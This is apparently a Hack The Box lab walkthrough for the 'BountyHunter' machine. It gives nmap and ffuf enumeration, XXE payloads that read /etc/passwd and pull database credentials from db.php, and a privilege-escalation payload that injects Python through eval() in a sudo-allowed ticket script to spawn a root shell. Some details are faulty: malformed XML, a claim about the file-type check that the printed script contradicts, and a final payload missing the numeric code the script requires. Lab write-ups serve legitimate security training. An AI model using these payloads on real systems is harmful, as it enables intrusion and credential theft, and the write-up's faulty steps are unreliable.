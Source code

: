 HTB - Bughunter (easy) \\
**bug**: xxe\\

**nmap**\\
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**\\
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to https://rhost/portal.php \\
check sources
click 
https://rhost/log_submit.php
open burp
capture request on submit
you can see POST request to /tracker_diRPrOOf314.php
check data to inspector
the data is base64 and url encoded 

![[Pasted image 20250505191745.png]]

----
**exploitation thru XXE**
capture POST request 
https://rhost/tracker_diRPrOOf314.php
you can see XML format being rendered in frontend
the title (entity) including its values are reflected

**(encoding)** use Hackverter ext on burp suite
select Encode tab
select urlencode and base64


**sensitive file read XXE**
change the requested XML with this edited request

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal
echo "the td data type shit" | base64 -d
connect to the machine with SSH

----
**finding privesc path**

the user ``development`` has user privilege
run ``sudo -l`` to check it
now you can see a script that requrires ``NOPASSWD`` to run

![[Pasted image 20250506105932.png]]

TicketValidator.py python script:
```
#!/usr/bin/env python3

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for irregularities.
    code_line = None
    for i, x in enumerate(ticketFile.readlines()):
        if not x.startswith("# Skytrain Inc"):
            return False
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {''.join(x.strip().split(' ')[2:])}")
            continue
        if x.startswith("# Ticket Code: "):
            code_line = i+1
            continue
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("*")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
            return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**flaws in the script**
the script asks for a `.md` for tickets, but it still continues even if it's not `.md`
so we can craft even a `.txt` file to act like a ticket and feed it to the script

here's what i came up with
```
# Skytrain Inc
## Ticket to Anywhere
# Ticket Code:
**__import__('os').system('/bin/sh')**
```

what it does is, it gives the script the minimum requirements it asks for tickets to be valid 
Line 1: `# Skytrain Inc` satisfies the first-line check.
Line 2:` ## Ticket` to Anywhere meets the second-line requirement (the destination can be anything).
Line 3: `# Ticket Code`: indicates the next line is the ticket code.
Line 4: ``**__import__('os').system('/bin/sh')**`` is the payload.

after that, it executes the `bin/sh` to spawn a root shell to the target machine
VOILA! BountyHunter PWNED!